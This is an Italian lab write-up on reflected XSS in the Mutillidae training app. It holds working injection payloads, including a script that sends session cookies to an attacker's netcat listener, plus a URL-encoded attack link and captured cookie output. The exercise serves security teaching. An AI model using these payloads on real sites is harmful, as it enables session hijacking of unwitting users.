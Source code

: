 # Esercizio 1 – Analisi di vulnerabilità XSS Riflesso

In questo esercizio viene analizzata una vulnerabilità di tipo Cross Site Scripting (XSS) riflesso, accessibile all'indirizzo:

`http://127.0.0.1/mutillidae/index.php?page=user-info.php`

Riferimento: A3 - Cross Site Scripting (XSS) → Reflected (First Order) → User Info

L'obiettivo è valutare se la pagina è vulnerabile a iniezione di codice lato client tramite l'input utente, e successivamente testare diverse tecniche di iniezione.

---

## 1.1 – Iniezione di un'immagine

Tramite l'input `username`, è possibile iniettare codice HTML. Ad esempio, il seguente payload permette di visualizzare un'immagine arbitraria nella pagina:

```html
"><img src="https://i.kym-cdn.com/photos/images/newsfeed/003/034/402/a4e.png">
```

La richiesta HTTP associata è la seguente:

```
http://192.168.64.21/mutillidae/index.php?page=user-info.php
&username=%22%3E%3Cimg+src%3D%22https%3A%2F%2Fi.kym-cdn.com%2Fphotos%2Fimages%2Fnewsfeed%2F003%2F034%2F402%2Fa4e.png%22%3E
&password=
&user-info-php-submit-button=View+Account+Details
```

---

## 1.2 – Iniezione di un form HTML

In questo esercizio si verifica la possibilità di iniettare un form HTML personalizzato tramite l'input dell'utente.

Il codice da iniettare è il seguente:

```html
"><form action="https://www.google.com/search" method="get">
    <input type="text" name="q" />
    <input type="submit" value="Cerca" />
</form>
```

Questo payload genera un form di ricerca che invia la query direttamente a Google.

---

## 1.3 – Esfiltrazione di cookie di sessione (cookie stealing)

L’obiettivo è realizzare uno script JavaScript che invii i cookie dell’utente autenticato a un server remoto controllato dall’attaccante.

### Configurazione lato server (attaccante)

Avviare un listener Netcat sulla porta 8080:

```bash
nc -l 8080
```

Nota: su macOS, il flag `-p` non è necessario né supportato in combinazione con `-l`.

### Payload JavaScript da iniettare

```html
<script>
    var x = new XMLHttpRequest();
    x.open("POST", "http://192.168.64.1:8080", true);
    x.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    x.send("cookie=" + document.cookie);
</script>
```

### Versione URL-encoded per iniezione tramite URL:

```
http://192.168.64.21/mutillidae/index.php?page=user-info.php&username=%3E%3Cscript%3E+++++var+x+%3D+new+XMLHttpRequest%28%29%3B+++++x.open%28%22POST%22%2C+%22http%3A%2F%2F192.168.64.1%3A8080%22%2C+true%29%3B+++++x.setRequestHeader%28%22Content-Type%22%2C+%22application%2Fx-www-form-urlencoded%22%29%3B+++++x.send%28%22cookie%3D%22+%2B+document.cookie%29%3B+%3C%2Fscript%3E&password=&user-info-php-submit-button=View+Account+Details
```

---

### Funzionamento dello script

- Viene creato un oggetto `XMLHttpRequest`.
- Si apre una connessione HTTP POST verso il server remoto.
- Si imposta l’header `Content-Type` su `application/x-www-form-urlencoded`.
- Viene inviato il contenuto dei cookie dell’utente autenticato al server di ascolto.

### Esempio di output ricevuto su Netcat

```http
POST / HTTP/1.1
Host: 192.168.64.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X ...)
Content-Type: application/x-www-form-urlencoded
Referer: http://192.168.64.21/
Origin: http://192.168.64.21
Content-Length: 56

cookie=showhints=1; PHPSESSID=9f5qu5n2ldvo56b369qk55p641
```

---

**Nota**: affinché l'esfiltrazione avvenga correttamente, l'utente vittima deve essere autenticato e deve accedere al link malevolo generato con lo script iniettato.
